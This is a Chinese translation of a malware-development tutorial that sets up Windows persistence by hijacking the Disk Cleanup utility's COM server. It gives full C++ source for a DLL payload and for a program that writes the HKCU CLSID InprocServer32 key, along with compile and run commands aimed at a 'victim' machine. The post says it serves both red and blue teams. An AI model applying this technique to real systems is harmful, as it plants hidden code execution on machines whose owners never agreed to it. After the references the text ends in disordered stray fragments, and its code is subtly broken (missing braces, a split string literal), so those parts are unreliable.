\newpage
\subsection{恶意软件开发：持久化（第 19 部分）——磁盘清理实用工具（简单的 C++ 示例）}

这篇文章基于我自己对一个比较有趣的恶意软件持久化技巧的研究：通过磁盘清理实用工具（Disk Cleanup Utility）实现持久化。

{width="80%"}

### 磁盘清理

如果你曾经遇到过硬盘空间不足的问题，那你一定对磁盘清理实用工具很熟悉：

对红队来说有个好消息：用户界面中显示的「要删除的文件」列表并不是随机的。

{width="80%"}

只需运行命令：

```powershell
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches" /s
```

{width="80%"}

{width="80%"}

如你所见，这里甚至有注册表项的默认值。

另外，如果我们有 `VolumeCaches\default=<CLSID>` 这样的值，我们就能找到另一个注册表项值：`HKCR\CLSID\<CLSID>\InProcServer32 = <DLLPATH>`：

{width="80%"}

{width="80%"}

这表明，我们可以利用 COM DLL 劫持来实现持久化。

我们来试试。

### 实战示例

首先，和往常一样，创建「恶意」DLL（`hack.cpp`）：

```cpp
/*
hack.cpp
simple DLL
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD nReason, 
LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
  MessageBox(
  NULL,
  "Meow-meow!",
  "=^..^=",
  MB_OK
  );
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

```

和往常一样，为了简单起见，它只是一个 meow-meow 消息框。

然后创建持久化脚本（`pers.cpp`）：

```cpp
/*
pers.cpp
windows persistence via Disk Cleaner
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "Software\\Classes\\CLSID\\{8369AB20-56C9-11D0-94E8-00AA0059CE02}
  \\InprocServer32";

  // malicious DLL
  const char* dll = "Z:\\2022-11-16-malware-pers-19\\hack.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)sk, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
  // create new registry keys
  RegSetValueEx(hkey, NULL, 0, REG_SZ, (unsigned char*)dll, strlen(dll));
  RegCloseKey(hkey);
  } else {
  printf("cannot create subkey value :(\n");
  return -1;
  }
  return 0;

```

我选择的 CLSID 是 `8369AB20-56C9-11D0-94E8-00AA0059CE02`。

### 演示

我们来编译我们的恶意 DLL：

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.cpp
```

{width="80%"}

以及持久化脚本：

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

复制到受害者的机器上（我的例子是 Windows 10 x64）。

```powershell
reg query "HKCU\Software\Classes\CLSID\{8369AB20-56C9-11D0-94E8-00AA0059CE02}" /s
.\pers.exe
```

{width="80%"}

{width="80%"}

但就持久化而言，这需要用户运行磁盘清理实用工具。

把磁盘清理添加到启动时运行可能不是个好主意，因为它有图形界面。

```powershell
cleanmgr.exe
cleanmgr.exe /cleanup
cleanmgr.exe /autoclean
cleanmgr.exe /setup
```

我尝试使用这个程序的命令行参数：

{width="80%"}

我认为我会在以后的一篇文章中回到这个问题。

另外，根据微软的文档，我们可以向 `VolumeCaches` 项添加新条目。

我不知道野外是否有任何 APT 使用过这种战术和技巧，但我希望这篇文章能让蓝队成员了解这个有趣的技巧（尤其是在开发软件时），并为红队成员的武器库增添一件武器。

[MSDN Registering Disk Cleanup Handler](https://learn.microsoft.com/en-us/windows/win32/lwef/disk-cleanup?redirectedfrom=MSDN#registration)  
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)  
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)  
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)  
[Malware persistence: part 3](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-11-16-malware-pers-19)

出于演示目的，这里我展示的是来自 `HKEY_CLASSES_ROOT` 的注册表示例，因为 `HKEY_CURRENT_USER` 是空的。

如你所见，代码与那篇 COM 劫持的文章相似。

区别只在于变量的值。

运行：

如你所见，一切运行完美！=..=

在这里，我可以使用一个经典的持久化技巧。

但失败了 :(。

它按预期正常运行：
